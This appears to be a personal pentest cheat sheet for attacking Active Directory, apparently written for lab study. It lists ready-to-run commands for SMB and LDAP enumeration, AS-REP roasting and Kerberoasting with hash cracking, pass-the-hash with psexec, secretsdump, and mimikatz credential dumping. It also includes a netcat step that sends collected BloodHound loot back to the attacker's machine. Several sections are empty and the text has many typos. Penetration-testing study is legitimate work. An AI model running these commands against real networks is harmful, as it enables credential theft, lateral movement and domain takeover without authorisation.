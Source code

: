 ## Getting Initial Foodhold
1. Determine the IP address or hostname of the Active Directory server. If we seen( port 53 445, 389, 88, we are most likely dealing with Domain Controller)
2. Enumerate DNS
3. Check open ports: Enumerate SMB: If port 445 is open, use tools like enum4linux, smbmap, smbclient crackmapexec to gather information about the SMB service, such as shared folders and users.
4. Enumerate LDAP: If port 389 or 3268/3269 is open, use tools like ldapsearch, to gather information about the LDAP directory service, such as users, groups, and organizational units.
5. Enumerate Kerberos: If port 88 is open, use tools like krb5-enum-users or enum-users-gpp-decrypt to enumerate users and potentially crack Kerberos passwords.
6. Enumerate RPC: If port 135 is open, use tools like rpcclient or nmap-rpc-info to gather information about the RPC service and potentially identify vulnerable endpoints.
7. Check for group policy: (Groups.xml for Windows 12 and below) Look for group policy information in the directory, use tools like gpp-decrypt to decrypt and extract any saved credentials.
   - open the Groups.xml file. decrpyt the password hash by `gpp-decrypt $HASH`
9. Check for computer accounts: Look for computer accounts in the directory, which can be used to identify and target specific systems on the network.
10. Look for organizational units (OUs): Check for OUs in the directory, which can be used to identify the structure and organization of the network.
11. https://orange-cyberdefense.github.io/ocd-mindmaps/img/pentest_ad_dark_2022_11.svg  Look at this roadmap
12. https://dw3113r.com/2022/07/20/active-directory-attack-cheat-sheet/ 

## Enumeration
1. `nmap -sC -sV -p- -oA result 10.0.0.0./8`
2. Edit host file `subl /etc/hosts to add domain`

## Port 53 DNS
1. `nslookup` 
2. `server $IP` then type -> `$IP` to figure out the host name. 
3. `dnsrecon -d $IP -r $IP
4. 
## Port 445 SMB (Check SMB.md file)
1. `nmap --script safe -p 445, $IP`
2. `enum4linux $IP`
3. `smbclient --no-pass -L //<IP>` , `smbclient -U 'username[%passwd]' -L [--pw-nt-hash] //<IP>` , `smbclient --no-pass //<IP>/<Folder>`
4. `smbmap -H $IP` (anonymous login) 
5. `smbmap -R $Filename $IP` (list the content of the directroy)
6. `smbmap -R Filename $IP -A $FiletoDownload -q` (Download the intersting file such as Groups.xml)  `update db` and `locate $Filename`. 
7. `crackmapexec smb $IP -u '' -p '' ` or `crackmapexec smb $IP -u 'guest' -p ''` to try to access.
## Port 389, 636, 3268, 3269 LDAP 
1. `nmap -n -sV --script "ldap* and not brute" -Pn -p389  192.168.55.122`
2. `nmap -n -sV --script "ldap* and not brute" -Pn  192.168.55.122`
3.  `ldapsearch -x -b <search_base> -H <ldap_host>` 
4.  `ldapsearch -x -b "dc=hutch,dc=offsec" -H ldap://192.168.55.122`    anonymous authentication
5.  `ldapsearch -x -H ldap://192.168.55.122 -D '' -w '' -b "DC=hutch,DC=offsec"`   anonymous authentication
6.  `ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "DC=<1_SUBDOMAIN>,DC=<TLD>"` credential login
7.  `ldapsearch -x -H ldap://192.168.55.122 -D '' -w '' -b "DC=hutch,DC=offsec" | grep sAMAccountName:`   Grabbing User
8.  `ldapsearch -x -H ldap://192.168.55.122 -D '' -w '' -b "DC=hutch,DC=offsec" | grep description:`   Grabbing User

```
## AS-REP Roasting (Authentication Reply Roasting) (With valid users)
1. If pre-authentication is disabled, and we provide a list of userlists to the domain controller (AS-REQ), the DC will grant us TGT. If the passwords are weak, we can crack the TGT and gain access. We can use krebrute, impacket, or crackmap
2. If we dont find some misconfiguration or user name try using this username list `/usr/share/seclists/Usernames/xato-net-10-million-usernames.txt` 
3. or `https://github.com/jeanphorn/wordlist/blob/master/usernames.txt` for the below command
4. `kerbrute userenum --dc $IP -d DOMAIN.NAME user.txt` user.txt is a userlist that we have created to authenticate to DC.
5. `impacket-GetNPUsers -usersfile user.txt -dc-ip $IP DOMAIN.NAME/`
6. Crack the hash
## Web vulnerabiltities   
   
# After initial shell, credentials or some password (Enumeration)
0. ***Logistic***: Say we gain some creds from the above method and have a shell on the computer. Now what can we do?
1. Check if, I can logon to other PC with same credentials(Pass the Pass crackmapexec) Dump the SAM file to figure out other accounts to move to other account,( Pass the Hash, secret.py)
2. Enumerate the PC that we are loged on to. Continue this process for lateral movement!(psexec)
3. Things we want to know, domain admins, domain controller, domain policy
4. Enumerate the initial target using powerview. Trasfer Powerview , and gather info to send back to bloodhound
```
Transfer SharHound (exe or ps1) and nc.exe to target
Run SharpHound.exe or .ps1
. .\SharpHound.ps1
Invoke-BloodHound -CollectionMethod All -Domain <DOMAIN.LOCAL> -ZipFileNmame loot.zip
Transfer loot back to kali:
- On $LHOST: nc -nlvp 4321 > loot.zip
- On target: nc.exe -nv <kali IP> 4321 < loot.zip
- Drag loot.zip into BloodHound GUI
```
4. https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993 (Some powerView Command cheatsheeet or refer below)
5. `powershell -ep bypass ` `. .\PowerView.ps1` 
6. `Get-NetDomain` , (domain info)
7.  For manual inspection `net user` (for local accounts) `net user /domain` (for all domain users) `net user <USERNAME> /domain` 
8. `Get-NetUser` `Get-NetUser | select cn` 
9. `Get-UserProperty -Properties pwdlastset` (are the passwords new?)   `Get-UserProperty -Properties logoncount` (logins with lot of login?)  
10. `Get-NetGroup`  `Get-NetGroup -GroupName "Domain Admins`. To view the Members `Get-NetGroupMembers -GroupName "Domain Admins`
11. `Get-NetDomainController` (for DC info, DC IP)
12. `Get-DomainPolicy` `(Get-DomainPolicy)."system access"` (policy such as minimum password length)
13. `Get-NetComputer` (show all the computers in the Domain) 
14. `Invoke-ShareFinder` (what files are being shared)
15. `Get-NetGPO` (show group policy)
16.  `Get-NetLoggedon -ComputerName <current Computer name>  `(Find,Currently Logged on Users: their credentials will be saved in memory so find out logged in highvalue target or lateral movement)
17.   `Get-NetSession -ComputerName dc01` (to verfify that domain controller is logged into what other pc)
18.   
## Pass the Password Attack (Come back to this step for lateral movement) 
1. Lets say we have some credentials. Lets try to pass the password/hash to other connected networks. Would be great if we could get to DC straight away but usually, we wont. 
2. `crackmapexec smb 192.168.119.0/24 -u SOMEUSERNAME -d DOMAIN.LOCAL -p SOMEPASSWORD` 
3. `psexec DOMAIN/username:SOMEPASSWORD@TARGETIP ` to login if sucessful
4. E.G `python /usr/share/doc/python3-impacket/examples/psexec.py  offsec/Allison:'RockYou!'@192.168.125.59`
## Pass the Hash or crack(gained from local SAM)
1. `impacket-secretsdump <username>:<password>@<domain name or IP> -dc-ip <DC IP>`
2. or `secretsdump.py marvel/ID:SOMEPASSWORD@TARGETIP` eg `python /opt/impacket/examples/secretsdump.py offsec/Allison:'RockYou!'@192.168.125.59 `
3. `crackmapexec smb 192.168.57.0/24 -u "Frank Admin" -H <Second part of the HASH without ::> --local-auth` (we are trying to login to other computers)
4. If we pawned a PC, we can try to psexec into the PC. `psexec.py "Frank Admin":@TARGETIP -hashes avbcd:abcd`. 
5. e.g `python /usr/share/doc/python3-impacket/examples/psexec.py  offsec/Administrator:@192.168.176.57 -hashes 51404eeaad3b435b51404ee:8c802621d74345dded890f3e5`
6. If dont get a shell, we werent able to gain admin access. Maybe RDP is open?. We can still do Kerbroasting.
## Dumping Hash (as Admin) 
1. Use mimikatz to view, steal credentials, generate kerbros tickets and leverage attack.
2. `.\mimikatz.exe`
3. `privilege::debug` (to gain access and bypass protection against memory) 
4. `sekurlsa::logonpasswords` Not only are we compromising DC, when we comporised a regualr computer, it is going to show the PC and NTLM hash, and any other user that has logged into the computer ever since the last reboot which is stored in memory
5. `lsadump::sam`
6. `lsadump::lsa /patch`

## Golden Ticket Attack


## GPP credentials 


## Token Impersonation
0. If we navigate to a machine and token of a domain administrator(user), we have domain admin. 


## Kerbreroasting (Service Account Attack (want to attack members of high value group, dont have to be admin )
1. Once we have some username + password, we ask the Domian Controller for TGS (since we can request TGT) and try to crack TGS hash.
2. `locate  GetUserSPNs.py`  `cd /usr/share/doc/python3-impacket/examples/` `python GetUserSPNs.py offsec.local/nathan:"abc123" -dc-ip=192.168.125.57 -request`

```
impacket-GetUserSPNs <IP or hostname>/<username>:<password> -request [add -request if SPN is found]
[save hash and crack with hashcat]
hashcat -m 13100 hash.txt /usr/share/wordlists/rockyou.txt
```

## Dump the hash 
1. We have a user account and pssexed into an account. We want to dump hashes.
2. `secretsdump.py Domain/USERNAME:SOMEPASSWORD@TargetIP`
3. `crackmapexec smb $IP.0/24 -u "UserNmae" -H <Hash> --local-auth
## Token Impersonation
